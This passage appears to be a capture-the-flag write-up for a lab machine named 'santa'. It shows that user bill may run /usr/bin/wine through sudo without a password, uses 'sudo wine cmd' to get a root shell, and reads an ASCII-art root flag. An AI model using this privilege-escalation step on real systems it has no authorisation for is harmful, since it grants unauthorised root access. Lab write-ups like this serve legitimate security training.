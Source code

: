 ### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for bill on santa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bill may run the following commands on santa:
    (ALL) NOPASSWD: /usr/bin/wine
```

## User - root

```bash
$ sudo /usr/bin/wine cmd
it looks like wine32 is missing, you should install it.
multiarch needs to be enabled first.  as root, please
execute "dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32:i386"
X11 connection rejected because of wrong authentication.
0050:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
0050:err:winediag:nodrv_CreateWindow L"The explorer process failed to start."
0050:err:systray:initialize_systray Could not create tray window
Microsoft Windows 6.1.7601

Z:\home\bill>whoami
0120:err:winediag:ntlm_check_version ntlm_auth was not found. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.
0120:err:ntlm:ntlm_LsaApInitializePackage no NTLM support, expect problems
SANTA\root
```

### flag - root

```bash
Z:\root>type root.txt
                               ..,,,,,,,,,,,,,,,,..
                        ..,,;;;;;;;;;;;;;;;;;;;;;;;;;;,,.
                    .,::::;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaa;;,,.
                .,;;,:::a@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@a,
              ,;;;;.,a@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@a
           ,;;;;%;.,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@a,
        ,;%;;;;%%;,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
     ,;;%%;;;;;%%;;@@@@@@@@@@@@@@'%v%v%v%v%v%v%v%v%v%v%v%v`@@@@@@@@@
   ,;;%%;;;;:;;;%;;@@@@@@@@@'%vvvvvvvvvnnnnnnnnnnnnnnnnvvvvvv%`@@@@'
  ,;%%;;;;;:;;;;;;;;@@@@@'%vvva@@@@@@@@avvnnnnnnnnnnvva@@@@@@@OOov,
 ,;%;;;;;;:::;;;;;;;@@'OO%vva@@@@@@@@@@@@vvnnnnnnnnvv@@@@@@@@@@@Oov
 ;%;;;;;;;:::;;;;;;;;'oO%vvn@@%nvvvvvvvv%nnnnnnnnnnnnn%vvvvvvnn%@Ov
 ;;;;;;;;;:::;;;;;;::;oO%vvnnnn>>nn.   `nnnnnnnnnnnn>>nn.   `nnnvv'
 ;;;;;;;;;:::;;;;;;::;oO%vvnnvvmmmmmmmmmmvvvnnnnnn;%mmmmmmmmmmmmvv,
 ;;;;;;;;;:::;;;;;;::;oO%vvmmmmmmmmmmmmmmmmmvvnnnv;%mmmmmmmmmmmmmmmv,
 ;;;;;;;;;;:;;;;;;::;;oO%vmmmmnnnnnnnnnnnnmmvvnnnvmm;%vvnnnnnnnnnmmmv
  `;%;;;;;;;:;;;;::;;o@@%vvmmnnnnnnnnnnnvnnnnnnnnnnmmm;%vvvnnnnnnmmmv
   `;;%%;;;;;:;;;::;.oO@@%vmmnnnnnnnnnvv%;nnnnnnnnnmmm;%vvvnnnnnnmmv'
     `;;;%%;;;:;;;::;.o@@%vvnnnnnnnnnnnvv%;nnnnnnnmm;%vvvnnnnnnnv%'@a.
      a`;;;%%;;:;;;::;.o@@%vvvvvvvvvvvvvaa@@@@@@@@@@@@aa%%vvvvv%%@@@@o.
     .@@o`;;;%;;;;;;::;,o@@@%vvvvvvva@@@@@@@@@@@@@@@@@@@@@avvvva@@@@@%O,
    .@@@@@Oo`;;;;;;;;::;o@@@@@@@@@@@@@@@@@@@@"""""""@@@@@@@@@@@@@@@@@OO@a
  .@@@@@@@@@OOo`;;;;;;:;o@@@@@@@@@@@@@@@@" "@@@@@@@@@@@@@@oOO@@@,
 .@@@@o@@@@@@@OOo`;;;;:;o,@@@@@@@@@@%vvvvvvvvvvvvvvvvvv%%@@@@@@@@@oOOO@@@@@,
 @@@@o@@@@@@@@@OOo;::;'oOOooooooooOOOo%vvvvvvvvvvvvvv%oOOooooooooOOO@@@O@@@,
 @@@oO@@@@@@@@@OOa@@@@@a,oOOOOOOOOOOOOOOoooooooooooooOOOOOOOOOOOOOO@@@@Oo@@@
 @@@oO@@@@@@@OOa@@@@@@@@Oo,oO@@@@@@@@@@OOOOOOOOOOOOOO@@@@@@@@@@@@@@@@@@Oo@@@
```